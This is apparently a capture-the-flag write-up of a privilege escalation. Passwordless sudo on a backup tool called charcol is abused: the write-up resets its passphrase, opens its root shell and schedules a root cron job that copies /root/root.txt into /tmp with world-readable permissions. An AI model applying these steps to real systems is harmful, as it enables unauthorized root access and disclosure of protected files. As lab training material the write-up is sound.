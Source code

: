 Discovered that the user mark can run /usr/local/bin/charcol as root
without a password.
charcol is a small backup utility that supports an interactive shell mode and has options such as--reset password to default.

<aside>
💡

sudo /usr/local/bin/charcol --help

</aside>

the help output shows `charcol` only exposes **`shell`** and a `--reset-password-to-default` (`-R`) option

Resetting the Charcol master passphrase to default

<aside>
💡

sudo /usr/local/bin/charcol -R

</aside>

Open the Charcol interactive shell as root

<aside>
💡

sudo /usr/local/bin/charcol shell

</aside>

(Inside charcol shell) Add a scheduled job to get the root flag

It schedules a job (named get_flag) that runs every minute and, as root, copies /root/root.txt to /tmp/root.txt then makes that copy readable by everyone.
So after a minute you can read the root file from /tmp/root.txt

<aside>
💡

auto add --schedule "* * * * *" --command "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt" --name "get_flag"

</aside>

Then we exit from the shell and go to mark home diretory

<aside>
💡

cat /tmp/root.txt

</aside>